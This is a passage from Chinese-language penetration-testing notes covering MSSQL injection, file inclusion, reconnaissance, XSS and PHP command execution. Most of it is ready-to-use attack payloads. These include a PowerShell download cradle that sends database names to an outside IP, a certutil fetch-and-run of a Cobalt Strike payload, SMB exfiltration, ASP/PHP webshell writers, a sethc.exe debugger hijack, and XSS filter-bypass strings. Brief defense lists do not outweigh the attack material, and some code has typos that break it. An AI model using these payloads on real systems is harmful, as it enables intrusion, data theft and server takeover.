?id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "powershell IEX(newobject net.webclient).downloading(''http://192.168.1.1:9000?data='%2b@a%2b''')"') --+
```

- `SMB数据外带`

```sql
#存在堆叠注入的数据外带
?id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_subdirs"//''%2b''192.168.1.1\\''%2b@a%2b''.txt"'')--+

#执行命令查看
tail -f /var/log/samba/log.smbd | grep "failed"
```

```sql
#不存在堆叠注入的数据外带
?id=1'and exits(select*from fn_xe_file_target_read_file('C:*.xls','\\'+(select user)+'Laffrex.eyes.sh\1.txt',null,null)) --+
```

****

#### MSSql扩展存储过程

- 存储过程是为了完成特定功能的`sql语句`集合,经编译后存储于数据库中,用户通过指定存储过程的名称并给出参数来执行.存储过程中可以包含逻辑控制语句和数据操纵语句,它可以接受参数,输出参数,返回单个或多个结果集以及返回值
- 由于存储过程在创建时即在数据库服务器上进行了编译并存储在数据库中,所以存储过程运行要比单个sql语句块要快,同时由于在调用时只需用提供存储过程名和必要的参数信息,所以在一定程度上也可以减少网络流量,减轻网络负担
- 存储过程分为:`系统存储`,`本地存储`,`扩展存储`,`远程存储`,`临时存储`过程

------

#### 系统存储过程

- 以`sp_`开头,进行系统的设定,如:`sp_oacreate`,`sp_oamethod`

- 利用`条件`

  - 1.已获得`sqlserver sysadmin权限`的用户,且账号与密码未降权

  - 2.sqlserver允许`远程连接`

  - `OLE Automation Procedures`选项开启

    `sp_oacreate`是创建OLE对象的实例

    `sp_oamethod`是调用一个OLE对象的方法

    组合`sp_oacreate`,`sp_oamethod`可执行命令无回显

  ```sql
  #启用sp_oacreate
  EXEC sp_configure 'show advanced options',1;
  RECONFIGURE WITH OVERRIDE;
  EXEC sp_configure 'Ole Automation Procedures',1;
  RECONFIGURE WITH OVERRIDE;
  c:/IISRootTest
  #利用mssql定义变量shell调用wscript.shell利用cmd.exe /c 执行命令并写入文件
  declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:/windows/system32/cmd.exe /c whoami > c://1.txt'
  
  #写一句话木马webshell
  declare @o int,@f int,@t int,@ret int
  exec sp_oacreate 'scripting.filesystemobject',@o out
  exec sp_oamethod @o,'createtextfile',@f out,'c:/IISRootTest/shell.asp',1
  exec @ret=sp_oamethod @f,'writeline',NULL,'<%execute(request("cmd"))%>'
  
  #组合sp_oacreate和sp_oamethod利用com组件执行命令
  declare @luan int,@exec int,@text int,@str varchar(8000);
  exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@luan output;
  exec sp_oamethod @luan,'exec',@exec output,'C:/windows/system32/cmd.exe /c whoami';
  exec sp_oamethod @exec,'StdOut',@text out;exec sp_oamethod @text,'readall',@str out;
  select @str;
  
  #SharpSQLTools工具利用sp_oacreate执行命令
  SharpSQLTools.exe 192.168.1.1 tomato tomato master enable_ole
  SharpSQLTools.exe 192.168.1.1 tomato tomato master sp_oacreate whoami
  ```

------

#### 本地存储过程

- 本地存储过程指用户创建的自定义存储过程.如:`CLR`

- `CLR`:公共语言基础结构(Common Language Infrastructure),用来支持不同的编程语言.sql server集成了该组件,可以通过sql server执行编写CLR执行系统命令

- SharpSQLTools实现上传下载文件,`xp_cmdshell`与`sp_oacreate`双回显和clr加载程序执行响应的操作

- ```sql
  #SharpSQLTools.exe 192.168.1.1 tomato tomato master install_clr
  #SharpSQLTools.exe 192.168.1.1 tomato tomato master enable_clr
  #SharpSQLTools.exe 192.168.1.1 tomato tomato master clr_efspotato whoami
  ```

  ##### xp_cmdshell`利用`

  - 当前用户拥有`DBA权限`
  - 依赖于`xplog70.dll`
  - 存储过程`存在`并`已启用`

- xp_cmdshell存储过程可以执行系统命令,默认支持输出执行结果

- 从`MSSQL_2005`版本之后默认处于禁用状态,可以使用`sp_configure`来启用或者禁用`xp_cmdshell`

```sql
#xp_cmdshell利用

#判断当前是否为DBA权限,返回1即为sysadmin
select IS_SRVROLEMEMBER('sysadmin');
#查看是否存在xp_cmdshell,返回1则存在
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshellhell'
#开启xp_cmdshell
EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;
#关闭xp_cmdshell
EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',0;RECONFIGURE;


#SQL注入+xp_cmdshell利用

#查看是否禁用xp_cmdshell
id=0'union select 1,2,count(*) from master..sysobjects where xtype='X' and name='xp_cmdshell' --+ 
id=1'and 1=(select count(*) from master.sys.sysobjects where name='xp_cmdshell') --+

#开启xp_cmdshell
id=0';EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE; --+

#执行命令
id=1';exec master.sys.xp_cmdshell 'ping -n 1 d3rymk.dnslog.cn' --+
```



------

#### 扩展存储过程

- 扩展存储过程以`xp`开头,主要使用外部程序语言编写的存储过程

- 如:`xp_cmdshell`直接利用其执行命令,`xp_subdirs`读取文件夹内容

- `sql server 2005` 后的版本默认关闭,需要开启后使用

- ```sql
  #开启xp_cmdshell
  EXEC sp_configure 'show advanced options',1;
  RECONFIGURE;
  EXEC sp_configure 'xp_cmdshell',1;
  RECONFIGURE;
  
  #执行系统命令
  exec master..xp_cmdshell 'whoami'
  #查询web根目录路径
  exec master..xp_cmdshell 'where /r c:/ *.asp'
  #利用xp_cmdshell写webshell-->`^`为转义符
  exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:/inetpub/wwwroot/shell.asp' -->找web绝对路径可利用where命令和其它扩展存储过程组合利用
  
  #利用xp_cmdshell开启3389
  http://192.168.1.1/Less-1.asp?id=1'exec xp_cmdshell 'REG ADD HKLM/SYSTEM/CurrentControlSet/Control/Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f' --+
  
  #执行命令写入web根目录或者反弹shell
  http://192.168.1.1/Less-1.asp?id=1';exec xp_cmdshell 'systeminfo > c:/inetpub/wwwroot/systeminfo.txt' --+
  
  #执行命令写入webshell
  http://192.168.1.1/Less-1.asp?id=1';exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:/inetpub/wwwroot/shell.asp'
  ----------------------------------->xp_cmdshell执行powershell命令上线CS<----------------------------------------------
  
  http://192.168.1.1/Less-1.asp?id=1';exec master..xp_cmdshell 'certutil.exe -f -split -urlcache http://192.168.172.129:9090/payload64.txt c://inetpub//wwwroot//payload1.bat' --+
  
  http://192.168.1.1/Less-1.asp?id=1';exec master..xp_cmdshell 'c://inetpub//wwwroot//payload1.bat' --
  --------------------------------------------------------------------------------------------------------------------
  
  #SharpSQL Tools.exe 利用 xp_cmdshell
  SharpSQLTools.exe 192.168.1.1 tomato tomato master enable_xp_cmdshell
  SharpSQLTools.exe 192.168.1.1 tomato tomato master xp_cmdshell whoami
  
  #删除xp_cmdshell存储过程
  exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll' declare @o int;
  sp_addextendedproc 'xp_cmdshell','xpsql70.dll';  --> 若彻底删除C盘删
  
  #查询指定文件夹的文件列表
  exec master..xp_subdirs 'c:/';
  
  #显示当前目录的子目录xp_dirtree
  - directory :第一个参数是要查询的目录
  - depth :第二个参数是显示子目录深度,默认是0,显示所有子目录
  - file :第三个参数是bool类型,指定是否显示子目录中的文件,默认是0,表示不显示任何文件,只显示子目录
  
  exec master..xp_dirtree 'c:/';		//显示c盘所有文件和目录
  exec master..xp_dirtree 'c:/',1';	//显示c盘所有目录
  exec master..xp_dirtree 'c:/',1,1;	//显示指定目录下的目录和文件
  
  #xp_create_subdir创建子目录
  exec master..xp_create_subdir 'c:/test';
  
  #xp_fileexist判断文件是否存在
  exec master..xp_fileexist 'c:/windows/win.ini';
  
  #使用xp_regwrite存储过程对注册表近蜥形修改,替换成任意值,造成镜像劫持
  -前提条件
  - 1.未禁止注册表编辑
  - 2.xp_regwrite启用
  #查看xp_regwrite是否启用
  select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_regwrite';
  
  #开启xp_regwrite
  exec sp_configure 'show advanced options',1 RECONFIGURE
  exec sp_configure 'xp_regwrite',1 RECONFIGURE
  
  #利用regwrite修改注册表进行劫持
  exec master..xp_regwrite @rootkey='HKEY_LOCAL_MACHINE',@key='SOFTWARE/Microsoft/WindowsNT/CurrentVersion/Image File Executio Options/sethc.EXE',@value_name='Debugger',@type='REG_SZ',@value='c:/windows/system32/cmd.exe'
  
  #利用regwrite开启3389端口
  exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM/CurrentControlSet/Control/Terminal Server','fDenyTSConnections','REG_DWORD',0;
  exec master..xp_cmdshell "REG ADD 'HKEY_LOCAL_MACHINE','SYSTEM/CurrentControlSet/Control/Terminal Server' /v fDenyTSConnections /t REG_DWORD /d 0"
  
  #利用xp_regread对注册表进行读取
  -读取注册查看是否修改成功
  exec master..xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE/Microsoft/WindowsNT/CurrentVersion/Image File Execution Options/sethc.exe','Debugger'
  
  #通过扩展存储过程拿shell
  - 前提
  - 数据库是db_owner权限
  - 涉及到的存储扩展过程:xp_cmdshell,xp_dirtree,xp_subdirs,xp_regread,xp_ntsec_enumdomains(查看domain信息)
  ```

------

#### 小结

- 条件:已知`web路径`,`sa或dba权限`

- 利用本地存储过程写shell

- xp_cmdshell

- ```sql
  exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:/inetpub/wwwroot/shell.asp';
  ```

- sp_oacreate

- ```sql
  declare @o int,@f int,@t int,@ret int
  exec sp_oacreate 'scripting.filesystemobject',@o out
  exec sp_oamethod @o,'createtextfile',@f out,'c:/inetpub/wwwroot/shell.asp',1
  exec @ret=sp_oamethod @f,'writeline',NULL,'<%execute(request("cmd"))%>'
  ```

- 本地存储过程CLR:直接利用sharpsqltools执行命令写shell进行利用

- `log备份`写shell

- ```sql
  #优点
  - 重复性好,多次备份成功率高
  - 相对于差异备份而言,shell的体积较小
  
  #利用条件
  - DBO权限,默认SA也可
  - 知道绝对路径,并且可写
  - 站库不分离,数据库跟网站在同一台服务器
  - 数据库必须被备份过一次
  
  use test;	//选中数据库
  alter database test set recovery full;	//设置恢复模式
  if exists(select table_name from information_schema.tables where table_name='test_tmp') drop table test_tmp;
  create table test_tmp (a image);	//新建临时表
  backup log test to disk = 'C://inetpub//wwwroot//asp.bak' with init;	//备份日志到指定路径
  insert into test_tmp (a) values (0x3C25657865637574652872657175657374282261222929253EDA);
  backup log test to disk = 'C://inetpub//wwwroot//123.asp'; -->连接`蚁剑`密码为a
  ```

- `差异备份`写shell

- ```sql
  #差异备份条件
  - dbo权限
  - 知道绝对路径,可写
  - http 500 错误不是自定义
  - web和数据库在一块.还有的就是数据库不能存在%号特殊字符
  - 数据量不能太大
  - Tips: 差异备份写shell容错率相对较差,通常利用存储过程日志备份写shell更为快捷键
  
  use test;	//选中库
  backup database test to disk = 'c://inetpub//wwwroot//mssql1.bak';	//手动备份一次
  create table test..test1(a image);	//新建临时表
  insert into test..test(a) values (0x3C25657865637574652872657175657374282261222929253EDA);	//插入一句话木马到表中,注意16进制
  backup database test to disk = 'c://inetpub//wwwroot//shell.asp' with differential.format;	//进行差异化备份
  drop table test..test1;	//备份完getshell后删除表
  ```

  ****

### 文件包含

#### 常见的文件包含函数

> `include`,`include_once`,`require`,`require_once`,`hight_file`,`show_source`,`readfile`,`file_get_contents`,`fopen`,`file`

- 概念:程序开发人员通常会把`可重复使用的函数`写到单个文件中,在使用某个函数的时候,`直接调用此文件`,无需再次编写
- 原因:为了代码更灵活,通常会把`被包含的文件设置为变量`,进行`动态调用`,从而导致客户端可以`调用任意文件`,造成文件包含漏洞.动态包含的`文件路径参数`,客户端可控

- include() -->找不到被包含的文件时之产生`警告`,脚本将`继续执行`
- include_once() -->和include类似,唯一区别是如果该文件中的代码`已经被包含`,则不会被`再次包含`
- require() -->找不到被包含的文件时会产生`致命的错误`,并`停止脚本`
- require_once() -->和require类似,唯一区别是如果文件被包含则不会被再次包含
- `require`和`include`的区别:使用`require`时,只要`程序执行`则`立即调用文件`.而`include`只有`程序执行`到`该函数`才会被调用
- 其它用于包含的函数:`highlight_file()`,`show_source()`,`readfile()`,`file_get_contents()`,`fopen()`,`file()`

```php
//经典代码,对$_GET['filename']参数没有经过严格的过滤,直接带入了include()函数,攻击者可以修改$_GET['filename']的值,加载其它文件,执行非预期的操作
<?php
$filename=$_GET['filename'];
include($filename)
?>

//图片马制作
copy /b 1.jpg + shell.php image_with_payload.jpg
```

------

#### 分类

- 主要包括`本地文件包含(LFI)`和`远程文件包含(RFI)`

- 简单来说,本地文件包含可以`读取`和`打开本地文件`,远程文件包含(http,ftp,php伪协议)就是可以`远程加载文件`

- `包含条件`:allow_url_fopen=On(php.ini中进行配置,该选项默认为on)->`本地文件包含不受影响`&&用户可以`动态控制变量`

- ```php
  //无限制本地文件包含漏洞经典代码
  <?php
  $filename=$_GET['filename'];
  include($filename);
  ?>
  ```

------

#### 本地文件包含(LFI)

- `绝对路径`读取本地host文件-->`?action=C:/Windows/System32/drivers/etc/hosts`

- `相对路径`读取本地host文件-->`?action=..//..//..///..//..//..//..//..//windows/system32/drivers/etc/hosts`

- 包含图片木马:`?action=./test.jpg`

- `有限制`本地文件包含漏洞`绕过`

- ```php
  <?php
  $filename=$_GET['filename'];
  include($filename.".php");
  ?>
      
  //绕过方法
   1.%00截断
      - 条件:magic_quotes_gpc=Off php版本<5.3.4
      - 获取phpinfo.php文件-->  ?action=phpinfo.php%00
          
   2.路径长度截断
      - 条件:windows下长于198字符,超出部分会被丢弃
      - ?action=phpinfo.php/./././././././././././././././././././././././././././././././././././././
          
   3.点号截断
      - 条件:windows系统,点号需要长于197
      - ?action=phpinfo.php.............................................................................
          
  ```

------

#### 远程文件包含(RFI)

- 指的是能够包含远程服务器上的文件并执行,可以通过http(s)或者ftp等方式,远程加载文件

- 危害:由于远程服务器的文件是我们可控的,因此漏洞一旦存在漏洞危害性很大

- 包含`条件`:

  - allow_url_include=On (默认为OFF,需要在php.ini中手动打开)
  - allow_url_fopen=On  (是否允许打开远程文件)
  - 用户可以`动态控制变量`

  ```php
  //举例
  //通过http协议加载目标机中的info.php文件
  [url]?path=http://ip/info.php	
  
  //通过ftp协议加载目标机中的info.php文件
  [url]?path=ftp://用户名:密码@ip/info.php	
  
  //绕过
  1.问号绕过
      - ?action=http://192.168.1.1/phpinfo.php?
  2.#号绕过
      - ?action=http://192.168.1.1/phpinfo.php%23
  3.空格绕过
      - ?action=http://192.168.1.1/phpinfo.php%20
  ```

------

#### 漏洞利用

- 端口探测:url=dict://ip:`80`

- 包含上传的getshell-->上传图片马

- 包含日志文件getshell-->为了避免在web中进行url编码,进行抓包修改,或者`构造报错信息写错误日志`

- 远程包含文件写shell

- ```php
  //在文件夹下会看到生成shell.php,内容为<?php eval($_POST[1]);?>,当直接包含图片时,代码就会被执行
  <?php
  fputs(fopen('shell.php','w'),'<?php eval($_POST[1]);?>');
  ?>
  ```

- 使用`php伪协议`getshell

------

#### php伪协议

- php伪协议就是`支持的协议`与`封装协议`

- | file:// |  访问本地文件系统   |
  | :-----: | :-----------------: |
  | http:// |   访问http(s)网址   |
  | ftp://  |   访问ftp(s),URLS   |
  | php://  | 访问各个输入/输出流 |
  | zlib:// |       压缩流        |
  | data:// |    数据(RFC2397)    |
  | rar://  |         RAR         |

- `file://协议`

  - 1.用途:访问本地系统文件
  - 2.使用条件:allow_url_fopen:off/on  allow_url_include:off/on	 -->file://在两个配置默认为off可正常使用
  - 3.使用方法:file://文件的绝对路径和文件名
  - 4.举例:[?path=file://c:/windows/system32/drivers/etc/hosts]
  - 

- `php://filter`

  - 1.用途:常用于读取文件/源码
  - 2.使用条件:`allow_url_fopen:off/on`,`allow_url_fopen:off/on`两个均为`off`情况下是可以使用的
  - 3.使用:[?path=php://filter/read=convert.base64-encode/resource=文件.php]
  - 4.注意:通过指定末尾的文件,可以读取base64`加密`后的文件源码,之后再base64`解码`.虽然不能直接获取到shell,但是能读取`敏感信息`
  - php://filter协议和file://协议的区别:`file`协议`只能`使用`绝对路径`,`fileter`协议相对绝对`均可`
  - 

- `php://input`

  - 用途:可以访问请求的原始数据的只读流,将`post请求中的数据作为php代码执行`
  - 使用条件:allow_url_fopen:off/on,allow_url_include:`on`
  - 使用方法:?file=php://input
  - [POST]:<?php phpinfo()?> (执行post data中的内容)

  

- `data://`

  - 用途:执行接收到的数据中包含的php代码
  - 使用条件:allow_url_fopen:`on`,allow_url_include=`on`
  - 使用方法:?file=data:text/plain,<?php phpinfo();?>
  - --------?file=data:text/plain;base64,PD9waHA工程GhwaWmbygpPz4=
  - --------?file=data://text/plain,<?php phpinfo();?>
  - http://192.168.1.1/include.php?file=data://text/plain,<?=phpinfo();?>

  

- `zip://`

  - 用途:读取压缩包内的文件(绝对/相对路径)如果包含php代码直接执行
  - 使用条件:allow_url_fopen:off   allow_url_include:off
  - 使用方法:zip://archive.zip#dir/file.txt
  - --------zip://[压缩文件绝对/相对路径]#[压缩文件内的子文件名]
  - --------?file=zip://D:/www/file.zip%23phpcode.txt
  - --------?file=zip://D:/www/file.jpg%23phpcode.txt
  - http://192.168.1.1/include.php?file=zip://shell.zip%23shell.txt

- `phar://`

  - 用途:读取压缩文件内的文件(相对/绝对路径)
  - 使用条件:allow_url_fopen:off     allow_url_include:off
  - 使用方法:?file=phar://D:/phpstudy/www/fileinclude/test.zip/phpinfo.txt
  - --------?file=phar://test.zip/phpinfo.txt
  - http://192.168.1.1/include.php?file=phar://shell.zip/shell.txt

  

- `compress.bzip2://`

  - 用途:读取压缩包内的文件(相对/绝对路径)	
  - 使用条件:allow_url_fopen:off    allow_url_include:off
  - 使用方法:?file=compress.bzip2://shell.txt.bz2
  - Bzip2 -k shell.txt
  - http://192.168.1.1/include.php?file=compress.bzip2://shell.txt.bz2

- `compress.zlip://`

  - 用途:读取压缩包内的文件(相对/绝对)
  - 使用条件:allow_url_fopen:off    allow_url_include:off
  - 使用方法:?file=compress.zlib://shell.zip#shell.txt
  - http://192.168.1.1/include.php?file=compress.zlib://shell.zip#shell.txt

- 其它

- 

------

#### 文件包含漏洞防御

- 1.严格判断包含中的参数是否外部可控
- 2.路径限制
- 3.包含文件验证
- 4.尽量不要使用`动态包含`,可以在需要包含的页面固定写好
- 5.php中可以使用`open_basedir`配置限制访问
- 6.过滤`.`,`/`,`/`等
- 7.禁止服务器远程文件包含

------

#### 本地文件包含演示

```php
//示例代码include.php
<?
$cover=$_GET['action'];
includ $cover;
?>
```


- 在同级目录`test`下创建`1.txt`,然后txt里写`html`
- http://192.168.69.195/file/include.php?action=../test/1.txt

- 执行效果展示


- 发现`html`代码部分是可以被成功解析运行出来的-->`include`是会执行代码的
- 使用文件包含读取系统文件:`http://192.168.69.195/file/include.php?action=C:/Windows/System32/drivers/etc/hosts`


****

### 信息收集

#### Google Hacking

```sql
# site-->找到与指定url有联系的url
site:baidu.com

# inurl/allinurl-->返回url中含有关键词的网页
inurl:login|index
allinurl:login admin

# intext/allintext-->寻找正文中含有关键字的网页
allintext:后台 登录 公司

# intitle/allintitle-->寻找标题中含有关键字的网页
allintitle:中国 后台 登录

# filetype-->指定文件访问类型
filetype:doc|pdf|xlsx
```

****

#### ICP`备案信息收集`

- 爱站:https://icp.aizhan.com/
- 站长之家:https://icp.chinaz.com/
- ICP备案查询网:https://www.beianx.cn/search/
- 工信部ICP备案查询:https://beian.miit.gov.cn/

****

#### 备案`反查`域名信息

- 网站向有关部门申请的备案信息(单位名,备案编号,网站负责人,电子邮箱,联系电话,法人...)
- 工信部ICP备案查询:https://beian.miit.gov.cn/
- ICP备案查询网:https://www.beianx.cn/search/

****

#### `Whois`信息收集

- whois可以获取关键注册人信息,包括注册公司,注册邮箱,管理员邮箱,管理员联系手机.
- 国外who.is:http://who.is/
- 站长之家:http://whois.chinaz.com/
- 爱站:https://icp.aizhan.com/
- 微步:https://x.threatbook.cn/
- IP138网站:https://site.ip138.com/
- 腾讯云:https://whois.cloud.tencent.com/
- 狗狗查询:https:www.ggcx.com/main/integrated/

****

#### `ip反查域名`

- 目标可能存在多个域名绑定同一ip上,通过ip反查,可以获取到其他域名信息,比如旁站
- 站长工具:https://stool.chinaz.com/same
- dnslytics:https://dnslytics.com/
- ip138:https://site.ip138.com/
- `Fofa`:ip="11.11.11.11"  https://fofa.info
- `奇安信鹰图`:ip="11.11.11.11" https://hunter.qianxin.com/
- Shodan.io "11.11.11.11"  https://www.shodan.io/

****

#### 子域名收集

- 搜索引擎
- 查子域:https://chaziyu.com/
- 尾部社区:https://x.threatbook.com/
- VT:https://www.virustotal.com/gui/home/search
- RapidDNS:https://rapiddns.io/subdomain
- Layer子域名挖掘机
- SubDomainsBrute
- Oneforall
- subfinder+kssubdomain+httpsx
- JsFinder
- URLFinder

****

#### 端口探测

- Nmap,Zenmap,masscan
- -sP/-sn 使用ping扫描,查看主机存活,不进行端口扫描
- -P 指定端口
- -O 显示操作系统版本

****

#### CMS指纹识别

- 通过指定特殊目录或者特殊文件
- 页面底部版权信息,关键字
- html注释掉的代码内容
- robots.txt文件中的关键字
- wappalyzer插件
- whatweb工具
- 潮汐指纹:http://finger.tidesec.net
- CMS识别工具:http://whatweb.bugscaner.com/look
- 云悉:http://www.yunsee.cn
- GODeye.vip

****

#### 判断是否存在CDN

- 多地ping
- 爱站
- 站长之家

****

#### 网络空间测绘搜索引擎

- https://fofa.info
- https://search.ccenysy.io
- https://quake.360.net
- https://hunter.qianxin.com
- https://www.shodan.io

****

#### FOFA语法

```sql
#搜索根域名为"ichunqiu.com"的网站
domain="ichunqiu.com"
#从url中搜索
host="ichunqiu.com"
#从https证书中搜索
cert="ichunqiu.com"
#利用证书序列号定位
cert="https证书序列号值10进制"
#利用备案号定位
icp="京ICP证151782号"
#利用网站标题特征定位
title="xxxx教育"
#利用网站icon图片定位
icon_hash="-837482394"
#利用html正文特征定位
body="XXXX教育"
#利用fofa指纹网站定位
fid=""
```

****

### XSS(跨站脚本攻击)

- XSS漏洞产生`条件`:
  - 1.可以控制的输入点
  - 2.`输入`能返回到前端页面上`被浏览器当成脚本语言解释执行`
- XSS漏洞的`危害`:
  - 窃取用户Cookie,冒充用户身份进入网站
  - 键盘记录
  - 客户端信息探查
  - XSS组合其它漏洞getshell
  - 劫持用户会话,执行任意操作
  - 刷流量,执行弹窗广告
  - 传播蠕虫病毒
- XSS漏洞的`防御`:
  - a:使用`XSS Filter`-->过滤用户提交的有害信息,从而达到防范XSS攻击的效果
  - b:输入过滤 --> 对用户输入进行过滤(后端)
  - c:输入验证 --> 对用户提交的信息进行`有效验证`(是否仅包含合法字符,字符长度限制,输入是否符合特殊的格式要求)
  - d:输出编码 --> HTML编码主要使用对应的`HTML 实体代替字符`
- `检测`XSS的方法:
  - 手工检测
    - 使用手工检测时需要考虑`哪里有输入,输入的数据在什么地方输出`
    - 可得知输出位置:输入一些`敏感字符`,例如`<`,`>`,`"`,`'`,`()`等,请求后查看html源码,看这些输入的字符`是否被转义`
    - 无法得知输出位置时:可能需要管理员审核,无法得知输入的数据在后台管理界面处于什么状态
  - 全自动检测XSS
    - `APPSCAN`,`AWVS`,`Burp`等软件
    - 专业的XSS扫描工具:`XSStrike`
- `工具与手动相结合`

****

#### XSS漏洞的分类

| 类型      | 存储区                  | 插入点          |
| --------- | ----------------------- | --------------- |
| 反射型XSS | URL                     | HTML            |
| 存储型XSS | 后端数据库              | HTML            |
| DOM型XSS  | 后端数据库/前端存储/URL | 前端 JavaScript |

- `反射型XSS`

  - 概念:是`非持久性`,参数型的跨站脚本,反射型XSS的Js代码在`web应用的参数`(变量)中,如`搜索框`的反射型XSS

  - 存在位置:常见于通过`URL传递参数`的功能,如网站搜素,跳转等

  - 攻击手法:需要欺骗用户自己去点击`链接`才能触发XSS代码(服务器中没有这样的页面和内容),一般容易出现在搜索页面

    - 验证反射性xss漏洞是否存在
    - `<script>alert(/xss/)</script>`(常用)
    - `<script>confirm('xss')</script>`
    - `<script>prompt('xss')</script>`

    ****

- `存储型XSS`

  - 概念:`持久性`跨站脚本,是三种XSS中`危害最大`的,它是将恶意代码写进`数据库`或`文件`等可以`永久保存数据的介质中`

  - 存在位置:常出现在`留言板`,`发表评论`或`发表文章`的地方(数据写入的地方)

  - 攻击手法:通过留言板等功能,将攻击者精心构造的XSS代码`保存到数据库`中,当其它用户再次访问这个页面时,就会触发并执行,从而窃取用户的敏感信息

    - 以留言板为例,留言板是`容易`发生`存储型XSS`的地方
    - 输入测试代码`<script>alert(/xsstest/)</script>`,提交留言,当网站管理员在后台进入留言管理页面时就会弹出,只要留言不删除,每次进入都会弹窗

    ****

- `DOM型XSS`

  - `不经过后端`,输出点在DOM,DOM-XSS是通过url传入参数去控制触发的,本质也属于`反射型XSS`

  - 攻击手法:攻击者构造出`特殊的URL`,其中包含恶意代码,用户打开带有恶意代码的URL,用户`浏览器`接收到响应后`解析执行`,前端`JavaScript`取出URL中的恶意代码并执行.恶意代码窃取用户数据并发送到攻击者的网站,或者冒充用户的行为,调用目标网站的接口执行攻击者指定的操作

  - | 方法                    | 描述                                                        |
    | ----------------------- | ----------------------------------------------------------- |
    | getElementById()        | 返回带有指定ID的元素                                        |
    | getElementByTagName()   | 返回包含带有指定标签名称的所有元素的节点列表(集合/节点数组) |
    | getElementByClassName() | 返回包含带有指定类名的所有元素的节点列表                    |
    | appendChild()           | 把新的节点添加到指定节点                                    |
    | removeChlid()           | 删除子节点                                                  |
    | replaceChild()          | 替换子节点                                                  |
    | insertBefore()          | 在指定的子节点前面插入新的子节点                            |
    | createAttribute()       | 创建属性节点                                                |
    | createElement()         | 创建元素节点                                                |

  - poc: `?message=<script>alert(/xss/)</script>`

  - 以`锚点`的方式提交poc,poc并`不会发送到服务器`,但是已经触发了XSS

  - 测试代码

  - ```html
    <html>
    <body>
    <script>
    	var a = document.URL;	//获取url
    	a = unescape(a);
    	document.write(a.substring(a.indeOf("message=")+8,a.length));	//获取url中的message的值,并且输出
    </script>
    </body>
    </html>
    ```

    ****

- 三种漏洞`区别`

  - `存储型XSS`与`反射型XSS`的区别:存储型XSS的恶意代码存在数据库里,反射型XSS的恶意代码存在URL里

  - `DOM型与其它两种`的区别:DOM型XSS攻击中,取出和执行恶意代码由浏览器端完成,属于前端Javascript自身的安全漏洞,而其它两种XSS都属于服务端的安全漏洞

    ****

#### xss的简单利用

- XSS获取管理员权限(获得cookie)
- xss键盘记录
- xss获取页面源代码,前端代码
- xss获取内网ip通过对内网进行扫描
- xss组合其它漏洞getshell
- 利用xss进行水坑攻击/钓鱼攻击
- 其他利用

#### xss绕过waf

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    width: ｅｘｐｒｅｓｓｉｏｎ(alert(1))
    <!--TODO:使用全角字符-->
    <style>@import 'javasc/ri/0pt:alert("xss")';</style>
</head>
<body>
<script>alert(1)</script></img>


<body onload=alert(1)>
<p onmouseover=alert(1)>test</p>
<a href="javascript:alert(1)">test</a>

<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" ></object>
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

<!--TODO:变形,大小写-->


<!--TODO:左斜线代替空格,水平制表符,回车符-->

<a href="javascript:alert(1)">test</a>

<!--TODO:双写绕过-->
<!--<scr<scriptipt>alert(1)</scr</script>ipt>-->

<!--TODO:编码-->
<A hREf="j&#97;v&#x61;script:alert(1)">test</A>

<!--TODO:使用特殊字符编码-->
<A href="&#01;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:alert(/xss/)">点击</A>

<!--TODO:使用html编码-->
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x2f;&#x78;&#x73;&#x73;&#x2f;&#x29;">点击</a>

<!--TODO:使用十进制 ascii 编码-->


<!--TODO:使用十六进制 ascii 编码-->

<script>eval("/x61/x6c/x65/x72/x74/x28/x27/x78/x73/x73/x27/x29")</script>

<!--TODO:使用unicode编码-->


<!--TODO:使用jsfuck,http://www.jsfuck.com/ 在线转换-->

</body>
</html>
```

****

### 命令执行

#### 相关函数

```php
<?php
// 1. system()
system('whoami'); // 列出当前目录的文件

// 2. exec()
exec('whoami', $output); // 执行命令并将输出保存到数组中
print_r($output);

// 3. shell_exec()
$result = shell_exec('whoami'); // 执行命令并将结果作为字符串返回
echo $result;

// 4. passthru()
passthru('whoami'); // 执行命令并直接输出结果

// 5. popen()
$handle = popen('whoami', 'r'); // 打开进程以读取输出
while (($line = fgets($handle)) !== false) {
    echo $line;
}
pclose($handle);

// 6. 反引号 (backticks)
$output = `whoami`; // 使用反引号执行命令并将结果作为字符串返回
echo $output;
?>
```

****

#### 危害

- 继承web服务器程序权限,`执行系统命令`,`读写`文件
- `反弹shell`
- `控制`整个服务器或网站

****

#### 防御

- 尽量不使用`执行系统命令`的函数,禁用`disable_functions`
- 在执行命令函数前,对参数进行`过滤`,敏感字符进行`转义`
- 参数尽量使用`引号包括`,拼接前调用`addslashes`进行转义

****

#### 变形

- `*`代表通配符`[0,无穷]`
- `?`代表`[一定有一个]`任意字符
- `[]`同样代表`[一定有一个在括号内]`的字符(非任意字符).例如`[abcd]随机一个`
